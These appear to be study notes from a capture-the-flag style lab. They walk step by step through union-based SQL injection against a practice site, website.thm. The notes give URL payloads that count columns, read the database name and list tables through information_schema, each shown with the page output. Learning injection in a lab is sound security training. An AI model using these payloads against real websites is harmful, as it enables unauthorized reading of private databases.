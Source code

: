 * Try the `UNION` operator to receive an extra result. Try setting the browsers `id` parameter to:
```
https://website.thm/article?id=1 UNION SELECT 1
```
* This statement produces an error message informingu that the `UNION SELECT` statement has a different number of columns than the original `SELECT` query:
```
SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of columns
```
* Try again, adding another column:
```
https://website.thm/article?id=1 UNION SELECT 1,2
```
* Same error.
* Repeat by adding another column:
```
https://website.thm/article?id=1 UNION SELECT 1,2,3
```
* Success, the error message has gone, and the article is being displayed:
```
My First Article

Article ID: 1
Hi and welcome to my very first article for my new website......
```
* Nnow the goal is to display data instead of the article.
* The article is being displayed because it takes the first returned result somewhere in the web site's code and shows that.
* To get around this, the first query must produce no results.
* This can be done by changing the article `id` from `1` to `0`.
```
https://website.thm/article?id=0 UNION SELECT 1,2,3
```
* The article is just made up of the result from the `UNION` select returning the column values 1, 2, and 3:
```
2

Article ID: 1
3
```
* Use the returned values to retrieve more useful information.
* Get the database name:
```
https://website.thm/article?id=0 UNION SELECT 1,2,database()
```
* Where the number 3 was previously displayed; it now shows the name of the database, which is `sqli_one`:
```
2

Article ID: 1
sqli_one
```
* Now gather a list of tables that are in this database.
```
https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
* The method `group_concat()` gets the specified column (in this case, `table_name`) from multiple returned rows and puts it into one string separated by commas.
* Every user of the database has access to the `information_schema` database and it contains information about all the databases and tables the user has access to.
* In this particular query, the goal is to list all the tables in the `sqli_one` database, which are `article` and `staff_users`:
```
2
```